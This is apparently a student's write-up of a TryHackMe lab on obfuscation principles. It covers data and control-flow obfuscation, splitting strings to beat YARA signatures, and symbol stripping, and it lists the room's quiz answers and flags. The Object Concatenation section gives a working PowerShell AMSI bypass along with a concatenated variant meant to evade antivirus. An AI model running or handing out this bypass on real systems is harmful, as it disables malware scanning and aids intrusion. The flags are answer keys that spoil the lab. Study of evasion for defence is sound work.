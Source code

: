 # Obfuscation Principles - Medium

1. [Origins of Obfuscation](#origins-of-obfuscation)
2. [Obfuscation's Function for Static Evasion](#obfuscations-function-for-analysis-deception)
3. [Object Concatenation](#object-concatenation)
4. [Obfuscation's Function for Analysis Deception](#obfuscations-function-for-analysis-deception)
5. [Code Flow and Logic](#code-flow-and-logic)
6. [Arbitrary Control Flow Patterns](#arbitrary-control-flow-patterns)
7. [Protecting and Stripping Identifiable Information](#protecting-and-stripping-identifiable-information)

## Origins of Obfuscation

* Obfuscation is generally used to protect IP (Intellectual Property) and proprietary info in an app.

* [This paper](https://cybersecurity.springeropen.com/track/pdf/10.1186/s42400-020-00049-3.pdf) covers layered obfuscation and the methods used.

* Adversaries & malware devs can leverage obfuscation to break signatures or prevent program analysis.

```markdown
1. How many core layers make up the Layered Obfuscation Taxonomy? - 4

2. What sub-layer of the Layered Obfuscation Taxonomy encompasses meaningless identifiers? - Obfuscating Layout
```

## Obfuscation's Function for Static Evasion

* Obfuscating data:

  * Array transformation
  * Data encoding
  * Data procedurization
  * Data splitting/merging

```markdown
1. What obfuscation method will break or split an object? - data splitting

2. What obfuscation method is used to rewrite static data with a procedure call? - data procedurization
```

## Object Concatenation

* Concatenation can be used to break targeted static signatures; attackers can also use it to break up all objects of a program and try to remove all signatures at once.

* In Yara, for example, if a defined string is present, it will be detected; however if we use concatention in our malware for the string, it will be functionally the same but will appear as multiple independent strings, resulting in no alerts.

* Non-interpreted characters:

  * Breaks - breaking string into multiple sub-strings

  * Reorders - reorder string components

  * Whitespace - include non-interpreted whitespace

  * Ticks - include non-interpreted ticks

  * Random case - for case-insensitive strings

```ps
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
#this is blocked by AV software
#so we need to use concatenation and non-interpreted chars

[Ref].Assembly.GetType('System.Management.Automation.Ams'+'i'+'Ut'+'ils')
#we can break it down by cmdlet and check for each cmdlet
#before proceeding

#we need to do separation of related code for final command
$Value="SetValue"

[Ref].Assembly.GetType( 'System.Management.Auto' + 'mation.Amsi' + 'Ut'+ 'ils' ).GetField( 'amsi' + 'In' + 'itFailed','No' +'nPublic,St' + 'atic').$Value($null,$true)
#submit this for flag
```

```markdown
1. What flag is found after uploading a properly obfuscated snippet? - THM{koNC473n473_4Ll_7H3_7H1n95}
```

## Obfuscation's Function for Analysis Deception

* Adversaries can leverage advanced logic and maths to create complex, tougher to understand code to combat analysis & RE.

* Obfuscating layout:

  * Junk codes
  * Separation of related codes
  * Stripping redundant symbols
  * Meaningless identifiers

* Obfuscating controls:

  * Implicit controls
  * Dispatcher-based controls
  * Probabilistic control flows
  * Bogus control flows

```markdown
1. What are junk instructions referred to as in junk code? - code stubs

2. What obfuscation layer aims to confuse an analyst by manipulating the code flow and abstract syntax trees? - obfuscating controls
```

## Code Flow and Logic

* Control flow - critical for program; defines how program will logically proceed.

```markdown
1. Can logic change and impact the control flow of a program? - T
```

## Arbitrary Control Flow Patterns

* Opaque predicates - used to control known output & input; its value is known to the obfuscator but it is difficult to deduce.

* Opaque predicates fall under 'bogus control flow' and 'probabilistic control flow'.

```markdown
1. What flag is found after properly reversing the provided snippet? - THM{D3cod3d!!}
```

## Protecting and Stripping Identifiable Information

* Major types of identifiable info are code structure, object names, and file/compilation properties.

```shell
#after obfuscating code structure and object names for given program
#we need to compile it

x86_64-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe

nm challenge-8.exe
#we need to remove symbols from the compiled binary

strip --strip-all challenge-8.exe

nm challenge-8.exe
#this does not show any symbols
#so we can upload it now to get flag
```

```markdown
1. What flag is found after uploading a properly obfuscated snippet? - THM{Y0Ur_1NF0_15_M1N3}
```
